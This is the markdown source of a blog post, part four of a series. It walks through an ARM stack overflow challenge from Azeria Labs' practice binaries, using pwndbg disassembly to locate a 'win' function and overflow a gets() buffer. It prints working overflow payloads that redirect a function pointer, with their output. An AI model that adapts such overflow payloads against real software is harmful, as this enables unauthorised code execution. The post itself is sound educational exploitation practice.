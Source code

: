```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part IV"
tags: reversing exploiting ARM iasm azeria-labs objdump
---
```


This time the goal is to make the program print the message
`"code flow successfully changed"`.<!--more-->

## A manual `xref`

Let's see where this message is stored:

```nasm
pwndbg> search "code flow successfully changed"
stack3          0x10560 0x65646f63 /* 'code flow successfully changed'*/
stack3          0x20560 0x65646f63 /* 'code flow successfully changed'*/
```

And from where the executable makes a reference to it? In other
words, where in the code segment this address is stored?

```nasm
pwndbg> search -4 --executable 0x10560
stack3          0x10490 0x10560
stack3          0x10c6c 0x10560
stack3          0x20490 0x10560
```

To summarize the message (and array of chars) is stored at 0x10560
and the address 0x10560 is stored in 0x10490, 0x10c6c and 0x20490.

These addresses are the `char*` that the program must load into a
register to do a call to `printf` or `puts`.

Let's assume that one of those addresses is loaded in a register using an
instruction like this:

```nasm
<???>     ldr   r?, [pc, #offset?]
```

It is a reasonable assumption: the rest of the challenges so far used
this instruction.

We don't know neither which register will be using nor the offset so we
will have to guess.

Let's see what we can find with `objdump` and `grep`:

```nasm
pi@raspberrypi:~$ objdump -d stack3 | grep "ldr.*r[0-9], \[pc"
   10374:       e59f000c        ldr     r0, [pc, #12]   ; 10388 <_start+0x34>
   10378:       e59f300c        ldr     r3, [pc, #12]   ; 1038c <_start+0x38>
   10390:       e59f3014        ldr     r3, [pc, #20]   ; 103ac <call_weak_fn+0x1c>
   10394:       e59f2014        ldr     r2, [pc, #20]   ; 103b0 <call_weak_fn+0x20>
   103b4:       e59f301c        ldr     r3, [pc, #28]   ; 103d8 <deregister_tm_clones+0x24>
   103b8:       e59f001c        ldr     r0, [pc, #28]   ; 103dc <deregister_tm_clones+0x28>
   103c8:       e59f3010        ldr     r3, [pc, #16]   ; 103e0 <deregister_tm_clones+0x2c>
   103e4:       e59f1024        ldr     r1, [pc, #36]   ; 10410 <register_tm_clones+0x2c>
   103e8:       e59f0024        ldr     r0, [pc, #36]   ; 10414 <register_tm_clones+0x30>
   10400:       e59f3010        ldr     r3, [pc, #16]   ; 10418 <register_tm_clones+0x34>
   10420:       e59f4018        ldr     r4, [pc, #24]   ; 10440 <__do_global_dtors_aux+0x24>
   10448:       e59f0024        ldr     r0, [pc, #36]   ; 10474 <frame_dummy+0x30>
   10460:       e59f3010        ldr     r3, [pc, #16]   ; 10478 <frame_dummy+0x34>
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
   104f4:       e59f604c        ldr     r6, [pc, #76]   ; 10548 <__libc_csu_init+0x5c>
   104f8:       e59f504c        ldr     r5, [pc, #76]   ; 1054c <__libc_csu_init+0x60>
```

These two lines are interesting:

```nasm
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
```

And the winner is 0x10484!

```python
>>> 0x10484 + 0x4 + 0x8
0x10490
```

See how 0x10484 the address of the `ldr` instruction plus the offset
`0x4` plus 0x8 bytes yields an address (0x10490) that we found before, a
`char*`.

If we dereference it we will see the address of the message:

```nasm
pwndbg> x/1wx 0x10490
0x10490 <win+20>:       0x00010560

pwndbg> x/1bs 0x00010560
0x10560:        "code flow successfully changed"
```

So, our target is:

```nasm
pwndbg> pdisass 0x10484-8
 ► 0x1047c <win>        push   {fp, lr}
   0x10480 <win+4>      add    fp, sp, #4
   0x10484 <win+8>      ldr    r0, [pc, #4]
   0x10488 <win+12>     bl     #puts@plt <puts@plt>

   0x1048c <win+16>     pop    {fp, pc}
```

### A comment

This is not the only way to do it.

I could search for a `puts` call which whole be more likely to be the
one that we are looking for:

```shell
pi@raspberrypi:~$ objdump -d stack3 | grep "puts"
00010324 <puts@plt>:
   10488:       ebffffa5        bl      10324 <puts@plt>
```

I could look which functions are available:

```nasm
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x000102ec  _init
0x0001030c  printf@plt
0x00010318  gets@plt
0x00010324  puts@plt
<...>
0x0001047c  win
0x00010494  main
<...>
```

I could use IDA or [Radare2](https://rada.re/n/radare2.html) or similar
and do a `xref`...

Or I could just read what is the goal from the
[challenge](https://azeria-labs.com/part-3-stack-overflow-challenges/).

I preferred a longer path to explore more the commands of `pwndbg`
and stress a little more my brain.

Otherwise it wouldn't be fun :)

## Let's jump

This is the `main` function:

```nasm
pwndbg> pdisass &main 9
 ► 0x10494 <main>       push   {fp, lr}
   0x10498 <main+4>     add    fp, sp, #4
   0x1049c <main+8>     sub    sp, sp, #0x50
   0x104a0 <main+12>    str    r0, [fp, #-0x50]
   0x104a4 <main+16>    str    r1, [fp, #-0x54]
   0x104a8 <main+20>    mov    r3, #0
   0x104ac <main+24>    str    r3, [fp, #-8]
   0x104b0 <main+28>    sub    r3, fp, #0x48
   0x104b4 <main+32>    mov    r0, r3
   0x104b8 <main+36>    bl     #gets@plt <gets@plt>

   0x104bc <main+40>    ldr    r3, [fp, #-8]
   0x104c0 <main+44>    cmp    r3, #0
   0x104c4 <main+48>    beq    #main+72 <main+72>

   0x104c8 <main+52>    ldr    r0, [pc, #0x18]
   0x104cc <main+56>    ldr    r1, [fp, #-8]
   0x104d0 <main+60>    bl     #printf@plt <printf@plt>

   0x104d4 <main+64>    ldr    r3, [fp, #-8]
   0x104d8 <main+68>    blx    r3
```

So instead of a cookie like in the
[stack0](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html)
or [stack1](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-II.html)
we have the address of a function.

{% marginnote
'`blx r3` is an unconditional jump to an absolute address
([docs](https://developer.arm.com/documentation/dui0068/b/arm-instruction-reference/arm-branch-instructions/blx?lang=en)).
<br />
That&apos;s why it works.
' %}

The address is initialized to zero but due to a stack overflow we can
write an arbitrary address, in particular, the address of `win`:
0x0001047c

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x7c\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x0001047c
code flow successfully changed
```

We could also jump to the middle of `win`, to 0x00010484, and we will
have the same result. The only problem is that the program will execute
the *epilogue* of `win` **without** having executed its *prologue*.

{% marginnote
'Does this ring some bells? This is the base of *return oriented
programming* or ROP.
' %}

The result? `pop {fp, pc}` will restore `pc` to the next element in the
stack which most likely will not be a valid address. Happy segfault!

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x84\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x00010484
code flow successfully changed
Segmentation fault
```
